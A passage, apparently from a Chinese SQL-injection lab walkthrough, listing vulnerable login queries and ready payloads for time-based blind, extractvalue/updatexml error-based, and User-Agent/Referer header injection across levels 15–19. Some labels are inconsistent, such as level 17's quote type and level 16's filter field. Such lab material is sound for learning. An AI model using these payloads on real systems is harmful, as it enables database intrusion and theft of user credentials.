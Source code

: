 ```python
# SQL语句
SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1;
# 过滤语句
无
# Payload
admin'and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

### 16、密码时间盲注sleep [ ") ]

```python
# SQL语句
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"';
# 过滤语句
SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1;
# Payload
admin" and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

### 17、密码报错注入 [ ' ]

```python
# SQL语句
SELECT username, password FROM users WHERE username= $uname LIMIT 0,1;
# 过滤语句
无
# Payload
admin" and extractvalue(1,concat(0x7e,(database()),0x7e))--+
```

### 18、UA头报错注入 [ ',1,1) ]

```python
# SQL语句
SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1;
# 过滤语句
无
# Payload
' and updatexml(1,concat(0x7e,(select database())),1) and '1' ='1
```

### 19、Referer头报错注入 [ ',1) ]

```python
# SQL语句
SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1;
# 过滤语句
无
# Payload
'and updatexml(1,concat(0x7e,(database())),1)and '1'= '1
```
